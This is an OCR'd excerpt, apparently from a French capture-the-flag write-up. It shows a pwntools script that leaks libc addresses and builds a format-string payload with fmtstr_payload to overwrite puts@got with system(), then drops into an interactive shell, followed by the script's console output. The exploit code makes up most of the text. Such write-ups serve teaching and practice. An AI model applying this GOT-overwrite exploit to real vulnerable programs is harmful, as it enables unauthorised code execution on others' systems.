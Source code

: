 ```python
info("libc base = %#x", libc.address)                                                                                  
                                                                                                                       
# Calculate system()                                                                                                   
system_libc_addr = libc.symbols.system                                                                                 
info("system = %#x", system_libc_addr)                                                                                 
                                                                                                                       
# On rentre à nouveau dans le calculateur mais cette fois pour le write-what-where                                     
p.sendline(b"1")                                                                                                       
p.readuntil(b"Enter first number:")                                                                                    
p.sendline(b"1")                                                                                                       
p.readuntil("Enter second number:")                                                                                    
                                                                                                                       
# pwntools génère la chaine de format à utiliser                                                                       
payload = fmtstr_payload(offset, {elf.got.puts: system_libc_addr}, write_size="short")                                 
info("pushing payload %s (size %d)", repr(payload), len(payload))                                                      
p.sendline(payload)                                                                                                    
                                                                                                                       
p.readuntil(b"Selection:")                                                                                             
# On quitte, ce qui va déclencher un system("\nGoogbye!")                                                              
p.sendline(b"4")                                                                                                       
p.interactive()                                                                                                        
p.close()
```

L'exploitation se fait ici sur le binaire que j'ai recopié sur ma machine :

```bash
$ python exploit.py 
[+] Starting local process './my_first': pid 32073
[*] 'my_first'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] puts@got = 0x8049c04
[*] Found format string offset: 8
[*] offset is at dword 8
[*] '/usr/lib/libc.so.6'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] puts = 0xf7c764e0
[*] libc base = 0xf7c00000
[*] system = 0xf7c4d0c0
```